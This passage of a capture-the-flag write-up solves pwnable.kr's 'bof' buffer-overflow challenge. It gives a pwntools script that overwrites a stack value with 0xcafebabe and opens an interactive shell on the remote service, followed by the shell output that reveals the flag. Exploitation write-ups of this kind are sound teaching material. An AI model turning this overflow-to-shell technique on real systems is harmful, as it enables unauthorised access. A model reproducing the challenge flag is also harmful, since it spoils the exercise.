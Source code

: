 ```
[+] Opening connection to pwnable.kr on port 9000: Done
[DEBUG] Sent 0x38 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  be ba fe ca                            │AAAA│····│
    00000038
[*] Closed connection to pwnable.kr port 9000
```

So we need something to interact with, since it didn't spit out `nah` this time.

> Not only can you interact with processes programmatically, but you can actually interact with processes.

Seems like the following should do the trick:

```python
#!/usr/bin/env python
from pwn import *

#context.log_level = 'debug'

conn = remote('pwnable.kr', 9000)
conn.send('A'*52+'\xbe\xba\xfe\xca')
conn.interactive()
```

Which it does:

```
python3 py_pwn.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
$ cat flag
daddy, I just pwned a buFFer :)
$
[*] Interrupted
```
Though, something weird seems to be happening where the first command doesn't register anything?

### post-post note

Duh -- the above "first command not working" is because when we use `.send` to send our payload, we're not including a newline at the end of the input.

So, we can add a `+'\n'` to there and get around it. __*Or*__, we can use the handy function `sendline` which is already a part of pwntools:

```
# venv setup
python3 -m venv ./bof_venv
source bof_venv/bin/activate
pip3 install pwntools

# run
python3 pwn_bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
$
[*] Interrupted

# venv teardown
deactivate
rm -rf ./bof_venv
```